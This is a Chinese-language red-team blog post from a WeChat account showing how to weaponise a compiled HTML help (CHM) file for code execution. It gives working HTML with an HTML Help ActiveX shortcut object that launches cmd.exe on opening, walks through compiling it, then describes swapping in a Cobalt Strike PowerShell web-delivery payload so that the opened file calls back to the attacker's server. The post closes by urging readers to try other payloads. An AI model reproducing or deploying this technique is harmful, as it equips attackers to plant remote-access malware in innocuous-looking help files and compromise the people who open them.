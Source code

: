 #  黑客(红队)攻防中内网利用chm文件进行getshell上线

原创 Flowers aq [ flower安全混子 ](javascript:void\(0\);)

**flower安全混子** ![]()

微信号 flowerx258

功能介绍 一定要离梦想近一点.

____

___发表于_

收录于合集

#红蓝对抗 5 个

#安全日志 24 个

#红队 4 个

**前言：**

  今天这个文章的来源是前几天和一位师傅的交流

![]()

![]()

 **chm：  
**

 **  **直接说 **chm** 文件师傅们可能比较懵但是看一下chm文件的图标可能就记起来了  

![]()

chm全称Compiled Help Manual利用HTML作源码是微软新一代帮助文件格式。

 **HTML编译：  
**

  要将HTML编译为chm需要借助HTML Help Workshop工具 **：  
**

  * 

    
    
     https://softpedia-secure-download.com/dl/18835165e5cb1c12b57394383d4aeccb/64cfb352/100068169/software/authoring/htmlhelp.exe

下载完成之后先新建一个.hhp后缀的文件：  

![]()

再新建一个HTML文件：  

![]()

  *   *   *   *   *   *   *   *   * 

    
    
     <!DOCTYPE html><html><head><title>Mousejack replay</title>        <head></head>        <body>hellp word<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>            <PARAM name="Command" value="ShortCut">                 <PARAM name="Button" value="Bitmap::shortcut">                     <PARAM name="Item1" value=',cmd.exe'>                         <PARAM name="Item2" value="273,1,1">                        </OBJECT><SCRIPT>x.Click();</SCRIPT>        </body></html>

![]()

然后打开hhw工具：

![]()

点击File-->New：

![]()

再点击Project：

![]()

![]()

选择刚刚创建的test.hhp文件：

![]()

![]()

再点击HTML files：  

![]()

再点击Add：

![]()

![]()

添加刚刚的test.html文件，最后点击完成：

![]()

查看源码有没有错误，查看完后点击File-->Compile：

![]()

![]()

点击Compile：

![]()

出现了生成日志按照日志位置找到test.chm文件：

![]()

双击运行：

![]()

成功弹出cmd

 **利用chm进行CS上线：**

  首先启动Kali上部署CS：  

![]()

本地连接：

![]()

![]()

点击攻击Attacks-->Web Druve-by-->Scripted Web Delivert生成一个powershell上线命令

![]()

然后更改刚刚HTML源码中的Value值

![]()

但是CS生成的payload中要在powershell.exe后加个逗号

![]()

![]()

准备好所需的文件

![]()

  

![]()

编译生成red.chm

![]()

拿到测试环境，直接命令行启动：

![]()

![]()

成功上线

总结：

chm上线的操作大多在win11以下设备上成功率较高，且操作没有以往的难度大，所以本文字数也较少，师傅们也可自行思考利用其它payload达到出其不意的效果。  
  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

